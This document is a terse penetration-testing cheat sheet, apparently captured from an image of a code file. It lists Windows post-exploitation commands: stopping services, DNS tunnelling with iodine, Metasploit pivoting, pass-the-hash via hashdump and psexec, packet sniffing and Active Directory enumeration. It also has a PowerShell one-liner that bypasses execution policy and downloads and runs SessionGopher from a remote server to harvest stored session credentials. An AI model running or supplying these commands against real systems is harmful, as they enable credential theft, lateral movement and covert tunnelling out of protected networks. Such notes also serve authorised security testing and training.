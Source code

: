 		# sc qc "vulnsvc" -> Query service config
		# try sc stop/start
		# shutdown /r /t 0 -> Restart endpoint to restart services aggressively


	DNS Tunneling:

		iodine -P '<PASS>' ns1.site.com -T CNAME -r -f 

		To SSH Socks proxy:

			ssh <user>@<nameserver IP> -D<LHOST-DNS CONNECTION>:<PORT> -N -C

Pivoting ::

	use post/windows/manage/autoroute
	set SESSION <SESSION>
	set SUBNET <ROUTE.0>
	run

	to proxy through the pivot, exploit again with pivot IP.


	Pass the hash:

		meterpreter > hashdump
		exploit/windows/smb/psexec
		set SMBUser
		set SMBPass <hash>
		exploit

	Info Gathering:

		use sniffer
		sniffer_interfaces
		sniffer_start <interface number>
		sniffer_dump <interface number> <filename.pcap>
		sinffer_stop <interface number>
		use post/multi/recon/local_exploit_suggester


	sshuttle -r root@<IP> --ssh-cmd "ssh -i ird_rsa" <remote subnet> -x <IP>


	SessionGopher:

		powershell.exe -nop -ep bypass -C iex (New-Object Net.Webclient).DownloadString('http://<SimpleHTTPServer>/SessionGopher.ps1'); Invoke-SessionGopher 

		-Thorough - more info

	Active Directory:

		load extapi
		adsi_computer_enum <USERDNSDOMAIN> - enumerate AD computers
		adsi_user_enum <USERDNSDOMAIN> - enumerate AD users
